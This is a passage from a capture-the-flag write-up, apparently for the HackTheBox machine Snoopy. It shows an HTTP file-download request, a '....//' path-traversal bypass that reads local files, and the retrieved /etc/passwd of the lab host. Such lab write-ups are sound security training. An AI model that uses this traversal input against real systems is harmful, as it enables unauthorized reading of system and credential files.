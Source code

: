 
### Download LFI -> DNS Vuln

On the main page, there is an option to download files. When we click that, this HTTP request is sent:

```http
GET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://provisions.snoopy.htb/
Upgrade-Insecure-Requests: 1

```

The `announcement.pdf` file had nothing interesting itself, but this looks vulnerable to LFI. Inital testing reveals this isn't vulnerable at first:

<figure><img src="../../.gitbook/assets/image (444).png" alt=""><figcaption></figcaption></figure>

After using `....//` instead, we can see that a file is generated:

<figure><img src="../../.gitbook/assets/image (376).png" alt=""><figcaption></figcaption></figure>

When the file is downloaded and viewed, we see that it works!

```
$ unzip press_release\(2\).zip 
Archive:  press_release(2).zip
  inflating: press_package/etc/passwd  
                                                                                             
$ cat press_package/etc/passwd
root:x:0:0:root:/root:/bin/bash
<TRUNCATED>
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
clamav:x:1002:1003::/home/clamav:/usr/sbin/nologin
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
bind:x:108:113::/var/cache/bind:/usr/sbin/nologin
_laurel:x:999:998::/var/log/laurel:/bin/false
```

